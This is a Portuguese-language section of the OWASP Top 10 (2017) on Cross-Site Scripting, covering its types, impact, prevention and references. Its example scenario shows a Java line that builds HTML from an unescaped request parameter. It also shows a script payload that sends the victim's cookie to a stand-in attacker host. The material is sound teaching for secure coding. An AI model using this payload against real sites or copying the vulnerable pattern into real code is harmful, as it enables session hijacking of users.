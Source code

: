 # A7:2017 Cross-Site Scripting (XSS)

| Agentes de Ameaça/Vectores de Ataque | Falha de Segurança | Impacto |
| -- | -- | -- |
| Específico App. \| Abuso: 3 | Prevalência: 3 \| Deteção: 3 | Técnico: 2 \| Negócio ? |
| Existem ferramentas automáticas capazes de detetar e tirar partido dos três tipos de XSS. Existem ainda _frameworks_, disponibilizadas gratuitamente, capazes de explorar este problema. | XSS é o segundo maior risco no Top 10 da OWASP e cerca de dois terços das aplicações são vulneráveis a este tipo de ataque. Existem ferramentas automáticas capazes de encontrar problemas de XSS em tecnologías bastantes populares como PHP, J2EE / JSP e ASP.NET. | O impacto do XSS é moderado para os tipos Reflected e DOM XSS mas severo para Stored XSS, onde a execução remota de código no navegador da vítima permite ao atacante roubar credenciais, sessões ou até mesmo infetar a máquina da vítima com _malware_. |

## A Aplicação é Vulnerável?

Existem três tipos de XSS que visam normalmente o navegador dos utilizadores:

* **Reflected XSS**: A aplicação ou API incluem dados de entrada do utilizador
  como parte do HTML da resposta sem que estes tenham sido validados e/ou os
  caracteres especiais tratados (_escaping_). Um ataque bem sucedido pode
  permitir a execução de código HTML e JavaScript no navegador da vítima.
  Normalmente a vítima segue um endereço malicioso para uma página controlada
  pelo atacante tal como _watering hole websites_, publicidade ou algo
  semelhante.
* **Stored XSS**: A aplicação ou API armazenam dados de entrada do utilizador de
  forma não tratada (_sanitization_) os quais serão mais tarde acedidos por
  outro utilizador ou administrador. Este tipo de XSS é considerado de risco
  alto ou crítico.
* **DOM XSS**: Tipicamente as _frameworks_ JavaScript, _Single Page
  Applications_ (SPA) e APIs que incluem na página, de forma dinâmica,
  informação controlada pelo atacante, são vulneráveis a DOM XSS. Idealmente a
  aplicação não enviaria informação controlada pelo atacante para as APIs
  JavaScript.

Os ataques típicos de XSS visam o roubo da sessão do utilizador, roubo ou
controlo da conta de utilizador, contornar autenticação de multi-fator (MFA),
alteração do DOM por substituição ou alteração de nós (e.g. formulários),
ataques contra o navegador do utilizador tais como o download de software
malicioso, _key logging_ entre outros.

## Como Prevenir

Prevenir ataques de XSS requer a separação dos dados não confiáveis do conteúdo
ativo do navegador. Isto é conseguido através da:

* Utilização de _frameworks_ que ofereçam nativamente protecção para XSS tais
  como as versões mais recentes de Ruby on Rails e ReactJS. É preciso conhecer
  as limitações destes mecanismos de proteção por forma a tratar de forma
  adequada os casos não cobertos.
* Tratamento adequado (_escaping_) da informação não confiável no pedido HTTP,
  tendo em conta o contexto onde esta informação irá ser inserida no HTML (body,
  atributo, JavaScript, CSS ou URL), resolve os tipos _Reflected_ e _Stored_
  XSS. Detalhes sobre como tratar esta informação estão no [OWASP Cheat Sheet
  'XSS Prevention'][0xa71].
* Aplicação de codificação de caracteres adequada ao contexto de utilização
  aquando da modificação da página no lado do cliente previne DOM XSS. Quando
  isto não é possível, podem utilizar-se algumas das técnicas referidas no
  documento [OWASP Cheat Sheet 'DOM based XSS Prevention'][0xa72].
* Adição de [Content Security Policy (CSP)][0xa73] enquanto medida de mitigação
  de XSS. É uma medida eficaz se não existirem outras vulnerabilidades que
  possibilitem a inclusão de código malicioso através de ficheiros locais da
  aplicação (e.g. _path traversal overwrites_ ou dependências vulneráveis
  incluídas a partir de CDNs autorizadas).

## Exemplos de Cenários de Ataque

**Cenário #1**: A aplicação usa informação não confiável na construção do HTML
abaixo, sem validação ou escaping:

```Java
(String) page += "<input name='creditcard' type='TEXT' value='" + request.getParameter("CC") + "'>";
```

O atacante altera o parâmetro `CC` no browser para:

```
'><script>document.location='http://www.attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>'
```

Isto irá fazer com que a sessão da vítima seja enviada para a página do
atacante, dando-lhe o controlo sobre a atual sessão do utilizador.

**Nota**: Os atacantes podem tirar partido do XSS para derrotar qualquer
mecanismo de defesa automática contra [Cross-Site Request Forgery
(CSRF)][0xa74].

## Referências

### OWASP

* [OWASP Proactive Controls: Encode Data][0xa75]
* [OWASP Proactive Controls: Validate Data][0xa76]
* [OWASP Application Security Verification Standard: V5][0xa77]
* [OWASP Testing Guide: Testing for Reflected XSS][0xa78]
* [OWASP Testing Guide: Testing for Stored XSS][0xa79]
* [OWASP Testing Guide: Testing for DOM XSS][0xa710]
* [OWASP Cheat Sheet: XSS Prevention][0xa711]
* [OWASP Cheat Sheet: DOM based XSS Prevention][0xa712]
* [OWASP Cheat Sheet: XSS Filter Evasion][0xa713]
* [OWASP Java Encoder Project][0xa714]

### Externas

* [CWE-79: Improper neutralization of user supplied input][0xa715]
* [PortSwigger: Client-side template injection][0xa716]

[0xa71]: https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet
[0xa72]: https://www.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet
[0xa73]: https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP
[0xa74]: https://developer.mozilla.org/pt-PT/docs/Glossary/CSRF
[0xa75]: https://www.owasp.org/index.php/OWASP_Proactive_Controls#tab=OWASP_Proactive_Controls_2016
[0xa76]: https://www.owasp.org/index.php/OWASP_Proactive_Controls#tab=OWASP_Proactive_Controls_2016
[0xa77]: https://www.owasp.org/index.php/Category:OWASP_Application_Security_Verification_Standard_Project
[0xa78]: https://www.owasp.org/index.php/Testing_for_Reflected_Cross_site_scripting_(OTG-INPVAL-001)
[0xa79]: https://www.owasp.org/index.php/Testing_for_Stored_Cross_site_scripting_(OTG-INPVAL-002)
[0xa710]: https://www.owasp.org/index.php/Testing_for_DOM-based_Cross_site_scripting_(OTG-CLIENT-001)
[0xa711]: https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet
[0xa712]: https://www.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet
[0xa713]: https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet
[0xa714]: https://www.owasp.org/index.php/OWASP_Java_Encoder_Project
[0xa715]: https://cwe.mitre.org/data/definitions/79.html
[0xa716]: https://portswigger.net/kb/issues/00200308_clientsidetemplateinjection

